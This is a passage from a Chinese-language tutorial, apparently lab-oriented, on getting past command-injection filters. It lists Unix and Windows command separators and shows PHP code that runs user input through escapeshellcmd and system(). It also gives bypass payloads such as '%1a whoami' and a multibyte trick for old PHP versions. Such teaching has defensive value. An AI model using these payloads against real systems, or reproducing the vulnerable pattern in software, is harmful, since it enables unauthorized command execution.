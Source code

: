 这里对`ip`以`.`分组并检查了是否为数字，增加了更多的过滤，所以没办法使用之前那些`trick`来进行绕过了。



###	常用绕过

####	命令分隔与执行多条命令

在`Unix`上:

```
%0a
%0d 
;
&
|
$(shell_command)
`shell_command`
{shell_command,}
```

在`Windows`上：

```
%0a
&
|
%1a - 一个神奇的角色，作为.bat文件中的命令分隔符
```

例如：

```php
<?php
$command = 'dir '.$_POST['dir'];
$escaped_command = escapeshellcmd($command);
var_dump($escaped_command);
file_put_contents('out.bat',$escaped_command);
system('out.bat');
?>
```

可以利用`%1a`绕过

```
dir=../ %1a whoami
```

比较老的`php`版本，如5.2.5及之前可以通过输入多字节来绕过。现在几乎见不到了。

```php
escapeshellcmd("echo ".chr(0xc0).";id");

//echo 繺;id
```



####	空格绕过

